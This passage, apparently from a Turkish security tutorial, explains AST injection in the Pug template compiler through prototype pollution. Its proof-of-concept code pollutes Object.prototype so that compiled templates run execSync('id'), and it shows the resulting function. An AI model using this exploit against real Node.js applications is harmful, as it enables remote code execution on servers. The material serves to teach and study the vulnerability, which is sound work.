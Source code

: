 Pug derleyicisinde, hata ayıklama için satır numarasını saklayan **pug_debug_line** adlı bir değişken bulunur.  

Eğer `node.line` değeri varsa, bu değer tampon (buffer) eklenir, aksi takdirde geçilir.

Pug-parser ile oluşturulan AST için, `node.line` değeri her zaman bir tamsayı olarak belirtilir.  
Ancak, **AST Injection** kullanarak `node.line`'a bir string ekleyebiliriz ve bu da rastgele kod çalıştırılmasına yol açabilir.

```
const pug = require('pug');

Object.prototype.block = {"type": "Text", "line": "console.log(process.mainModule.require('child_process').execSync('id').toString())"};

const source = `h1= msg`;

var fn = pug.compile(source, {});
console.log(fn.toString());

/*
function template(locals) {
    var pug_html = "",
        pug_mixins = {},
        pug_interp;
    var pug_debug_filename, pug_debug_line;
    try {;
        var locals_for_with = (locals || {});

        (function (console, msg, process) {;
            pug_debug_line = 1;
            pug_html = pug_html + "\u003Ch1\u003E";;
            pug_debug_line = 1;
            pug_html = pug_html + (pug.escape(null == (pug_interp = msg) ? "" : pug_interp));;
            pug_debug_line = console.log(process.mainModule.require('child_process').execSync('id').toString());
            pug_html = pug_html + "ndefine\u003C\u002Fh1\u003E";
        }.call(this, "console" in locals_for_with ?
            locals_for_with.console :
            typeof console !== 'undefined' ? console : undefined, "msg" in locals_for_with ?
            locals_for_with.msg :
            typeof msg !== 'undefined' ? msg : undefined, "process" in locals_for_with ?
            locals_for_with.process :
            typeof process !== 'undefined' ? process : undefined));;
    } catch (err) {
        pug.rethrow(err, pug_debug_filename, pug_debug_line);
    };
    return pug_html;
}
*/


```
